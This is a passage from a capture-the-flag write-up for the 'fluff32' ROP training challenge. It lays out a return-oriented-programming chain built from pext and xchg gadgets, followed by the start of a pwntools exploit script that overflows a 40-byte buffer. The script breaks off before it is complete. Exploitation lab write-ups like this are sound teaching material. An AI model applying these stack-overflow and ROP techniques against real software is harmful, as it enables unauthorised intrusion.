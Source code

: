 Just finish finding the values that we want for ebp (our mask in the pext instruction), and forge our stack:

*Make sure you keep incrementing the address in the data header by 1 each time you call the 3 "questionable gadgets"*


```
rop gadget
 = pop ebp
_________________________________
args
 = new ebp2 = 0x5d46
 = "\x46\x5d\x00\x00"
_________________________________
rop gadget
 = pext
_________________________________
rop gadget
 = pop ecx, xchg ecx
_________________________________
next byte in data header
in big endian
= data header + 2 in big endian
_________________________________
rop gadget
 = xchg BYTE PTR [ecx],dl
_________________________________
```

Here's our python script:
```python
from pwn import *
from pprint import pprint
offset = 40

context.arch = 'i386'

elf = ELF("./fluff32")
p = elf.process()

# uncomment to debug:
#   gdb.attach(p, gdbscript='''
#   # script
#   ''')


rop = ROP(elf)

p.recvuntil(b">")


# address of gadgets we'll use/return to 
xchg_ecx_dl = p32(elf.symbols["questionableGadgets"]  + 18)
pext_rop_gadget = p32(elf.symbols["questionableGadgets"])
pop_ecx_xchg = p32(elf.symbols["questionableGadgets"] + 21)
pop_ebp_gadget = p32(rop.ebp.address)
   

# use rop object to locate gadgets in memory
rop = ROP(elf)

# buffer is 40 A's
buf = b"A"*offset

ebp_mask_for_l = b"\xdd\x06\x00\x00"
```
